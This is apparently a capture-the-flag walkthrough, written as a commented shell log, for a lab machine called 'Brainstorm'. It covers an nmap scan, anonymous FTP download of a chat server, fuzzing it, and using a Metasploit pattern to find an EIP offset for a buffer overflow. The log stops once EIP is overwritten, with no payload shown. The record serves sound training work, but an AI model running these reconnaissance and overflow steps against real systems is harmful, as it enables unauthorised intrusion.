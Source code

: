 # Brainstorm - Medium

```shell
nmap -T4 -p- -A -Pn -v 10.10.3.116

ftp 10.10.3.116
#anonymous login

ls -la
#it gets stuck at 'entering extended passive mode'
#Ctrl+C to stop it

passive
#passive mode is off now

ls -la
#cannot open in ASCII mode

binary
#switch to binary mode

ls -la

cd chatserver

ls -la
#we have two files

mget *
#now we can check these files

nc 10.10.3.116 9999
#we can interact with the chatserver

#we can try to reverse-engineer chatserver.exe

python3 -m http.server
#in windows machine, download the files by visiting the link

#run chatserver.exe in Immunity Debugger

vim fuzzer.py

python3 fuzzer.py
#fuzzer breaks at 2400 bytes

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2800
#generate payload to find EIP offset

vim exploit.py

#restart chatserver.exe in Immunity Debugger
#do it everytime before running exploit

python3 exploit.py
#run exploit
#we get EIP offset 2012 on running mona command

vim exploit.py
#edit values to offset=2012 and retn="BBBB"

python3 exploit.py
#we get 42424242 in EIP register
```